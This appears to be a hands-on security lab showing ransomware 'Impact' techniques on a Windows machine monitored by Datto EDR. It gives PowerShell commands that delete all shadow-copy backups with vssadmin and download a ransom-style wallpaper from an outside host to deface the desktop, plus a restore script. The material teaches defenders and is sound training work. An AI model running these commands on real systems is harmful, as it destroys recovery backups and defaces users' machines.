 ```yaml
---
Title: ATT&CK - Impact Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/17/2025
Achievements:
Duration: 10
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- LibreOffice
- Gimp
External:
- attack.mitre.org
- allitshop.infocyte.com
- infocyte-support.s3.us-east-2.amazonaws.com/extension-utilities/wallpaper.jpg
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

The Impact phase of an attack consists of techniques that adversaries use to disrupt availability or compromise integrity by manipulating business and operational processes. Techniques used for impact can include destroying or tampering with data. 

In order for a ransom to be effective, skilled attackers often wait till they have total control of a network and pre-stage their ransomware on every system so that it can be initiated all at once on every system with security tooling and backup software disabled.


## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs 
-->
1. Understand the Impact phase of an attack
2. Demonstrate some system changes common during this phase
   

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |



## Instructions
For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 

### 1. Inhibit System Recovery
> *Ransomware's purpose is to restrict access to data by encrypting it till the victim pays the ransom. Inhibiting the ability to restore from backup is essential to making sure the attacker achieves this objective.*
>
> *The method we'll demonstrate today is common in all ransomware attacks: deleting the shadowcopy backups.  The shadowcopy, when enabled, stores copies of any files modified and is the basis for some ransomware rollback software.*

Delete the shadow copy backups to perform **Inhibit System Recovery** technique
- MITRE ATT&CK Technique: [ATT&CK T1490 - Impact - Inhibit System Recovery](https://attack.mitre.org/techniques/T1490)
- Copy and paste this command into the terminal:
	```PowerShell
	# Shadow Copy Deletion
	Write-Host -ForegroundColor Cyan "Initiating technique T1490 - Inhibit System Recovery"
	vssadmin.exe delete shadows /All /quiet 2>&1
	```

### 2. Wallpaper Defacement
> *An adversary may deface systems internal to an organization in an attempt to intimidate or mislead users, thus discrediting the integrity of the systems. This may take the form of modifications to internal websites, or directly to user systems with the replacement of the desktop wallpaper. In ransomware, the wallpaper will be changed to give the user instructions and make their demands*

Execute a **Wallpaper Defacement** by changing the background to a ransomware message. 
- MITRE ATT&CK Technique: [ATT&CK T1491 - Impact - Defacement: Internal Defacement](https://attack.mitre.org/techniques/T1491)
- Copy and paste this command into the terminal:
```PowerShell
(Get-ItemProperty 'HKCU:\Control Panel\Desktop').WallPaper | Set-Content "$env:TEMP\original_wallpaper.txt"

powershell -NoProfile -NoLogo -ExecutionPolicy Bypass -Command {
    Write-Host -ForegroundColor Cyan "Initiating technique T1491 - Defacement: Internal Defacement";
    Start-Sleep -Seconds 2;

    $wallpaperURL = "https://infocyte-support.s3.us-east-2.amazonaws.com/extension-utilities/wallpaper.jpg";
    $wallpaperPath = "$env:temp\wallpaper.jpg";

    Invoke-WebRequest $wallpaperURL -OutFile $wallpaperPath;
    Start-Sleep -Milliseconds 1000;

    Set-ItemProperty -Path 'HKCU:\Control Panel\Desktop' -Name WallpaperStyle -Value 10;
    Set-ItemProperty -Path 'HKCU:\Control Panel\Desktop' -Name TileWallpaper -Value 0;

    Add-Type -TypeDefinition @'
        using System;
        using System.Runtime.InteropServices;
        public class Params {
            [DllImport("user32.dll", CharSet = CharSet.Unicode)]
            public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
        }
'@;

    $UpdateIniFile = 0x01;
    $SendChangeEvent = 0x02;
    $fWinIni = $UpdateIniFile -bor $SendChangeEvent;

    [Params]::SystemParametersInfo(0x0014, 0, $wallpaperPath, $fWinIni);
}
```
- [Optional] Restore:
```Powershell
powershell -NoProfile -NoLogo -ExecutionPolicy Bypass -Command {
    $oldPath = Get-Content "$env:TEMP\original_wallpaper.txt"
    Write-Host -ForegroundColor Cyan "Restoring original wallpaper...";
    Start-Sleep -Seconds 2;

    Set-ItemProperty -Path 'HKCU:\Control Panel\Desktop' -Name WallpaperStyle -Value 10;
    Set-ItemProperty -Path 'HKCU:\Control Panel\Desktop' -Name TileWallpaper -Value 0;

    Add-Type -TypeDefinition @'
        using System;
        using System.Runtime.InteropServices;
        public class Params {
            [DllImport("user32.dll", CharSet = CharSet.Unicode)]
            public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
        }
'@;

    $UpdateIniFile = 0x01;
    $SendChangeEvent = 0x02;
    $fWinIni = $UpdateIniFile -bor $SendChangeEvent;

    [Params]::SystemParametersInfo(0x0014, 0, $oldPath, $fWinIni);
    Write-Host -ForegroundColor Green "Wallpaper restored to: $oldPath";
}
```
